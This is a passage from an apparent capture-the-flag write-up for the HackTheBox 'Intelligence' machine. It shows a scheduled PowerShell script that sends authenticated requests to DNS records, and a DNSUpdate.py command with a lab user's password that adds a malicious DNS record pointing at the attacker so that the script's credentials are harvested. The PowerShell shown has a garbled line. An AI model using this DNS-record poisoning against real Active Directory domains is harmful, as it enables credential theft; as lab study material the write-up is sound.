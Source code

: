 We find a `downdetector.ps1` inside the IT share

We also find the user.txt in the Users share that we can submit later on

```powershell
# Check web server status. Scheduled to run every 5min
Import-Module ActiveDirectory 
foreach($record in Get-ChildItem "AD:DC=intelligence.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=intelligence,DC=htb" | Where-Object Name -like "web*")  {
try {
$request = Invoke-WebRequest -Uri "http://$($record.Name)" -UseDefaultCredentials
if(.StatusCode -ne 200) {
Send-MailMessage -From 'Ted Graves <Ted.Graves@intelligence.htb>' -To 'Ted Graves <Ted.Graves@intelligence.htb>' -Subject "Host: $($record.Name) is down"
}
} catch {}
}

```

The script appears to be using it's credentials to make a web request to each DNS record

We can Add/modify/delete Active Directory Integrated DNS records via LDAP: https://github.com/Sagar-Jangam/DNSUpdate


We can add a DNS record:
```bash
python3 DNSUpdate.py -u 'intelligence\Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' -a ad -r webma1ware -d 10.10.16.22 -DNS 10.129.156.112
```

!["Updating DNS entry"](./imgs/assets-intelligence/dnsupdate.png)
